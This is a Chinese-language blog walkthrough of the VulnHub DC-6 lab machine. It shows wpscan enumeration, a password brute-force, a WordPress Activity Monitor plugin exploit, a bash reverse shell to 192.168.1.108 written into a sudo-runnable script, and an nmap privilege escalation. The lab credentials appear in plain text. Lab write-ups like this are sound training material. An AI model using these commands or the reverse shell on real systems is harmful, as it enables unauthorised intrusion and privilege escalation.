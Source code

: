 ```yaml
---
layout: post
title:  "DC_6"
description: walkthrough
category: vulnhub
---
```

# DC_6

![image-20200615013941834]({{ site.url }}/assets/DC_6.assets/image-20200615013941834.png)

![image-20200615014047556]({{ site.url }}/assets/DC_6.assets/image-20200615014047556.png)

![image-20200615014629529]({{ site.url }}/assets/DC_6.assets/image-20200615014629529.png)

![image-20200615041725018]({{ site.url }}/assets/DC_6.assets/image-20200615041725018.png)



修改host

![image-20200615021530085]({{ site.url }}/assets/DC_6.assets/image-20200615021530085.png)

wpscan

```bash
wpscan --url http://wordy -e ap,vt,cb,u
```

![image-20200615021714721]({{ site.url }}/assets/DC_6.assets/image-20200615021714721.png)

![image-20200615021801259]({{ site.url }}/assets/DC_6.assets/image-20200615021801259.png)

```bash
wordpress v5.1.1
theme twentyseventeen v2.1
user :	admin	sarah	graham	mark	jens
```

制作字典，暴力登录

```bash
wpscan --url http://wordy -U users.txt -P /usr/share/wordlists/rockyou.txt

mark:helpdesk01
```

登录之前扫到的登录点http://wordy/wp-admin/



![image-20200615041614632]({{ site.url }}/assets/DC_6.assets/image-20200615041614632.png)

看了一圈没有常用的可利用的项。

查看一下插件

![image-20200615075101710]({{ site.url }}/assets/DC_6.assets/image-20200615075101710.png)

Activity Monitor

![image-20200615075415246]({{ site.url }}/assets/DC_6.assets/image-20200615075415246.png)

将漏洞文件的html文件部分复制出来并修正

![image-20200615082126056]({{ site.url }}/assets/DC_6.assets/image-20200615082126056.png)

在工作目录下拉起http服务

![image-20200615082216693]({{ site.url }}/assets/DC_6.assets/image-20200615082216693.png)

![image-20200615082305516]({{ site.url }}/assets/DC_6.assets/image-20200615082305516.png)

浏览器访问kalihttp服务下修改过的evil页面，点击`submit request`提交请求，此时监听得到shell

![image-20200615082428509]({{ site.url }}/assets/DC_6.assets/image-20200615082428509.png)

枚举之后发现新用户凭证

![image-20200615082811854]({{ site.url }}/assets/DC_6.assets/image-20200615082811854.png)

```bash
graham:GSo7isUM1D4
```

尝试ssh，直接发现新线索

![image-20200615083058866]({{ site.url }}/assets/DC_6.assets/image-20200615083058866.png)

![image-20200615083252359]({{ site.url }}/assets/DC_6.assets/image-20200615083252359.png)

这个脚本还可以直接修改。写个shell进去.注意使用单双引号的区别，单引号帮助跳过识别叹号

```bash
echo '#!/bin/bash' > /home/jens/backups.sh
echo "bash -i >& /dev/tcp/192.168.1.108/1337 0>&1" >> /home/jens/backups.sh
```

![image-20200615085012819]({{ site.url }}/assets/DC_6.assets/image-20200615085012819.png)

```bash
sudo -u jens /home/jens/backups.sh
```

![image-20200615085244424]({{ site.url }}/assets/DC_6.assets/image-20200615085244424.png)

执行nmap，nmap需要利用脚本，

```bash
cd ~
echo 'os.execute("/bin/bash")' > evil
sudo  nmap  --script=evil
```

![image-20200615085620557]({{ site.url }}/assets/DC_6.assets/image-20200615085620557.png)